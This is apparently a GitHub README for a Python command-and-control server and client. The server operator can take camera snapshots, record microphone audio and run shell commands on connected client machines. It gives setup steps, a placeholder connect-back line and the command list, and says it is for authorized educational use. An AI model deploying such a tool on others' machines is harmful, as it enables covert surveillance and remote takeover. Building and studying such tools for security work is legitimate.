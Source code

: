 # neC2i
# Command and Control (C2) Server and Client

This project implements a basic Command and Control (C2) server and client using Python. The server can send commands to connected clients to perform various actions, such as capturing screenshots, recording audio, changing directories, and executing shell commands. The client receives these commands, executes them, and sends the results back to the server.

## Features

- Capture screenshots from the client's camera.
- Record audio from the client's microphone.
- Execute shell commands on the client.
- Change directories on the client.

## Requirements

- Python 3.x
- OpenCV (`opencv-python`)
- PyAudio (`pyaudio`)

## Setup

### Server

1. Clone the repository and navigate to the project directory.
    git clone https://github.com/enisecur1ty/neC2i.git
    cd repository

2. Run the server script.
    python3 server.py

### Client

1. Clone the repository and navigate to the project directory.
    git clone git clone https://github.com/enisecur1ty/neC2i.git
    cd repository

2. Install the required packages.
    # Create and activate a virtual environment (optional but recommended)
    python -m venv myenv
    source myenv/bin/activate
    
    # Install dependencies
    pip install opencv-python pyaudio

3. Update the server IP address in the client script.
    ```python
    client.connect(("server_ip", 9999))  # Replace 'server_ip' with the actual server IP
    ```

4. Run the client script.
    python3 client.py
    

## Usage

1. Start the server by running `python server.py`.
2. Start the client by running `python client.py` on the client machine.
3. From the server console, you can now send commands to the client. For example:
    - `screenshot` - Captures a screenshot from the client's camera.
    - `record_audio` - Records audio from the client's microphone for 5 seconds.
    - `cd <directory>` - Changes the current directory on the client.
    - Any shell command (e.g., `ls`, `pwd`) - Executes the command on the client.

4. The client will execute the commands and send the results back to the server.

## Ethical Considerations

This project is intended for educational purposes only. Ensure you have proper authorization before running this software on any system. Unauthorized use of this software can lead to serious legal consequences.
